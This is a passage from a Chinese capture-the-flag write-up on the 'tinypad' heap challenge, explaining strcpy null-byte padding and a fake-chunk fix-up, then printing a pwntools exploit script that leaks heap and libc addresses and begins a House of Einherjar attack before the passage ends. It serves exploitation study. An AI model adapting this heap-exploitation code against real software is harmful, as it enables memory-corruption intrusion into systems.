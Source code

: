 3、`for i in range(len(p64(size))-len(p64(size).strip('\x00'))+1)`处这一循环是由于strcpy函数复制时被`\x00`截断，而要写入偏移地址需要在高位填充`\x00`，于是可以利用strcpy函数拷贝字符串时给字符串末尾加上的`\x00`进行填充

4、`payload="a"*0x20+p64(0)+p64(0x111)+p64(main_arena)+p64(main_arena)`处是对fake_chunk进行修正，因为在unsorted bin中只有一个chunk时，其fd和bk都应指向(main_arena + 0x88)



完整exp如下：

```
from pwn import *
context.log_level="debug"
p=process("tinypad")
elf=ELF("./tinypad")
libc=ELF("./libc.so.6")
offset=0x3c4b78
def add(size,content):
    p.recvuntil("(CMD)>>> ")
    p.sendline("A")
    p.recvuntil("(SIZE)>>> ")
    p.sendline(str(size))
    p.recvuntil("(CONTENT)>>> ")
    p.sendline(content)

def delete(index):
    p.recvuntil("(CMD)>>> ")
    p.sendline("D")
    p.recvuntil("(INDEX)>>> ")
    p.sendline(str(index))
    #size=0,p!=NULL
    #\x00

def edit(index,content):
    p.recvuntil("(CMD)>>> ")
    p.sendline("E")
    p.recvuntil("(INDEX)>>> ")
    p.sendline(str(index))
    p.recvuntil("(CONTENT)>>> ")
    p.sendline(content)
    p.recvuntil("(Y/n)>>> ")
    p.sendline("Y")



add(0x10, 'a') 
add(0x10,"b")
add(0x100,"c")
delete(2)
delete(1)
p.recvuntil(" # CONTENT: ")
heap_base=u64(p.recvuntil('\n',drop=True).ljust(8,'\x00'))-0x20
print "heap_base="+hex(heap_base)
#gdb.attach(p)
#x /10xg 0x602140
delete(3)
p.recvuntil(" # CONTENT: ")
main_arena=u64(p.recvuntil('\n',drop=True).ljust(8,'\x00'))
print "main_arena="+hex(main_arena)
libc_base=main_arena-offset
print "libc_base="+hex(libc_base)

# house of einherjar
add(0x18,"d"*0x18)
add(0xf0,"e"*0xf0)
add(0xf0,'f'*0xf8)
```